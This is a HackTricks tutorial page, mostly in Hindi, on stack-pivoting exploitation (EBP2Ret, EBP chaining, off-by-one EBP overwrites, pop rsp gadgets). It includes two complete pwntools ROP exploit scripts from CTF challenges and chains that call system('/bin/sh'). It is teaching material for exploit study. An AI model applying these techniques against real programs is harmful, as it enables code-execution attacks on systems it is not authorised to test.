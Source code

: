# Stack Pivoting - EBP2Ret - EBP chaining

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

यह तकनीक **Base Pointer (EBP)** को नियंत्रित करने की क्षमता का लाभ उठाती है ताकि EBP रजिस्टर और `leave; ret` निर्देश अनुक्रम का सावधानीपूर्वक उपयोग करके कई कार्यों के निष्पादन को श्रृंखला में जोड़ा जा सके।

याद दिलाने के लिए, **`leave`** का मूल अर्थ है:
```
mov               esp, ebp
pop               ebp
ret
```
And as the **EBP is in the stack** before the EIP it's possible to control it controlling the stack.

### EBP2Ret

यह तकनीक विशेष रूप से उपयोगी है जब आप **EBP रजिस्टर को बदल सकते हैं लेकिन EIP रजिस्टर को सीधे बदलने का कोई तरीका नहीं है**। यह कार्यों के निष्पादन के बाद के व्यवहार का लाभ उठाता है।

यदि, `fvuln` के निष्पादन के दौरान, आप स्टैक में एक **नकली EBP** इंजेक्ट करने में सफल होते हैं जो मेमोरी के उस क्षेत्र की ओर इशारा करता है जहां आपका शेलकोड का पता स्थित है (प्लस 4 बाइट्स `pop` ऑपरेशन के लिए), तो आप अप्रत्यक्ष रूप से EIP को नियंत्रित कर सकते हैं। जैसे ही `fvuln` लौटता है, ESP को इस तैयार स्थान पर सेट किया जाता है, और अगला `pop` ऑपरेशन ESP को 4 से घटाता है, **जिससे यह प्रभावी रूप से एक पते की ओर इशारा करता है जिसे हमलावर ने वहां स्टोर किया है।**\
ध्यान दें कि आपको **2 पते जानने की आवश्यकता है**: वह जहां ESP जाने वाला है, जहां आपको उस पते को लिखने की आवश्यकता होगी जिस पर ESP इशारा करता है।

#### Exploit Construction

पहले आपको एक **पता जानने की आवश्यकता है जहां आप मनमाने डेटा / पते लिख सकते हैं**। ESP यहां इशारा करेगा और **पहला `ret` चलाएगा**।

फिर, आपको उस पते के बारे में जानने की आवश्यकता है जिसका उपयोग `ret` द्वारा **मनमाना कोड निष्पादित करने के लिए किया जाएगा**। आप उपयोग कर सकते हैं:

* एक मान्य [**ONE\_GADGET**](https://github.com/david942j/one\_gadget) पता।
* **`system()`** का पता उसके बाद **4 जंक बाइट्स** और `"/bin/sh"` का पता (x86 बिट्स)।
* एक **`jump esp;`** गैजेट ([**ret2esp**](ret2esp-ret2reg.md)) का पता उसके बाद निष्पादित करने के लिए **शेलकोड**।
* कुछ [**ROP**](rop-return-oriented-programing.md) श्रृंखला

याद रखें कि नियंत्रित मेमोरी के भाग में इन पते से पहले **`4` बाइट्स** होनी चाहिए क्योंकि **`pop`** भाग `leave` निर्देश का है। इन 4B का दुरुपयोग करके एक **दूसरा नकली EBP** सेट करना और निष्पादन को नियंत्रित करना संभव होगा।

#### Off-By-One Exploit

इस तकनीक का एक विशिष्ट रूप "Off-By-One Exploit" के रूप में जाना जाता है। इसका उपयोग तब किया जाता है जब आप **केवल EBP के सबसे कम महत्वपूर्ण बाइट को संशोधित कर सकते हैं**। ऐसे मामले में, मेमोरी स्थान जो **`ret`** के साथ कूदने के लिए पता स्टोर करता है, उसे EBP के साथ पहले तीन बाइट्स साझा करने चाहिए, जिससे अधिक सीमित परिस्थितियों के साथ समान हेरफेर की अनुमति मिलती है।

### **EBP Chaining**

इसलिए, स्टैक के `EBP` प्रविष्टि में एक नियंत्रित पता डालकर और `EIP` में `leave; ret` का पता डालकर, यह संभव है कि **स्टैक से नियंत्रित `EBP` पते पर `ESP` को स्थानांतरित किया जाए**।

अब, **`ESP`** नियंत्रित है जो एक इच्छित पते की ओर इशारा कर रहा है और निष्पादित करने के लिए अगला निर्देश `RET` है। इसका दुरुपयोग करने के लिए, नियंत्रित ESP स्थान में यह रखा जा सकता है:

* **`&(next fake EBP)`** -> `leave` निर्देश से `pop ebp` के कारण नया EBP लोड करें
* **`system()`** -> `ret` द्वारा कॉल किया गया
* **`&(leave;ret)`** -> सिस्टम समाप्त होने के बाद कॉल किया जाएगा, यह ESP को नकली EBP पर ले जाएगा और फिर से शुरू करेगा
* **`&("/bin/sh")`**-> `system` के लिए पैरामीटर

बुनियादी रूप से इस तरीके से कई नकली EBPs को जोड़ना संभव है ताकि कार्यक्रम के प्रवाह को नियंत्रित किया जा सके।

यह एक [ret2lib](ret2lib/) की तरह है, लेकिन अधिक जटिल है जिसमें कोई स्पष्ट लाभ नहीं है लेकिन कुछ किनारे के मामलों में दिलचस्प हो सकता है।

इसके अलावा, यहां आपके पास एक [**चुनौती का उदाहरण**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave) है जो इस तकनीक का उपयोग करता है एक **स्टैक लीक** के साथ एक विजेता फ़ंक्शन को कॉल करने के लिए। यह पृष्ठ से अंतिम पेलोड है:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
0x0,               # rbp (could be the address of anoter fake RBP)
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,
elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

payload += flat(
buffer,         # Load leak address in RBP
LEAVE_RET       # Use leave ro move RSP to the user ROP chain and ret to execute it
)

pause()
p.sendline(payload)
print(p.recvline())
```
## EBP बेकार है

जैसा कि [**इस पोस्ट में समझाया गया है**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#off-by-one-1), यदि एक बाइनरी को कुछ ऑप्टिमाइजेशन के साथ संकलित किया गया है, तो **EBP कभी भी ESP को नियंत्रित नहीं करता**, इसलिए, EBP को नियंत्रित करके काम करने वाला कोई भी एक्सप्लॉइट मूल रूप से विफल हो जाएगा क्योंकि इसका कोई वास्तविक प्रभाव नहीं है।\
यह इसलिए है क्योंकि **प्रोलॉग और एपिलॉग में बदलाव** होता है यदि बाइनरी ऑप्टिमाइज्ड है।

* **ऑप्टिमाइज्ड नहीं:**
```bash
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```
* **अनुकूलित:**
```bash
push   %ebx         # save ebx
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore ebx
ret                 # return
```
## अन्य तरीके RSP को नियंत्रित करने के लिए

### **`pop rsp`** गैजेट

[**इस पृष्ठ पर**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp) आप इस तकनीक का एक उदाहरण पा सकते हैं। इस चुनौती के लिए 2 विशिष्ट तर्कों के साथ एक फ़ंक्शन को कॉल करना आवश्यक था, और वहाँ एक **`pop rsp` गैजेट** था और वहाँ **स्टैक से लीक** था:
```python
# Code from https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp
# This version has added comments

from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16) # Leak from the stack indicating where is the input of the user
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225       # pop all of: RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229     # pop RSI and R15

# The payload starts
payload = flat(
0,                 # r13
0,                 # r14
0,                 # r15
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,               # r15
elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

# Start popping RSP, this moves the stack to the leaked address and
# continues the ROP chain in the prepared payload
payload += flat(
POP_CHAIN,
buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```
### xchg \<reg>, rsp gadget
```
pop <reg>                <=== return pointer
<reg value>
xchg <reg>, rsp
```
## संदर्भ

* [https://bananamafia.dev/post/binary-rop-stackpivot/](https://bananamafia.dev/post/binary-rop-stackpivot/)
* [https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
